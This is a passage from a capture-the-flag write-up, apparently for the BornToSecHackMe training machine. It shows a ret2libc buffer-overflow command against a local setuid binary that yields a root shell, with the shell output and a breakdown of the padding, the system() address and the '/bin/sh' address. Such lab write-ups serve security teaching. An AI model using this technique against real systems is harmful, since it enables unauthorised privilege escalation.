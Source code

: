 ```
Therefore, it's time to exploit the vulnerability.

```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "A"*4 + "\x58\xcc\xf8\xb7"')

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��AAAAX���

# whoami
root

# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```


### How did we exploit the vulnerability?

```
Let's break down each component of our exploit:

1. Buffer Overflow with "A"*140
   - Fills the buffer with 140 'A' characters
   - Overflows past the buffer's boundaries
   - Overwrites the saved EBP (Base Pointer)
   - Positions us to control the return address (EIP)

2. System Function Address "\x60\xb0\xe6\xb7"
   - Address of libc's system() function
   - Written in little-endian format
   - Overwrites the return address
   - Program execution will jump here

3. Return Address Placeholder "A"*4
   - 4 bytes of dummy data
   - Would normally be the return address after system() call
   - Not important since we won't return from shell
   - Could be any 4 bytes of data

4. Shell String Address "\x58\xcc\xf8\xb7"
   - Points to "/bin/sh" string in memory
   - Found in libc memory space
   - Written in little-endian format
   - Passed as argument to system()
```

FINALLY WE ARE ROOT #9 ;D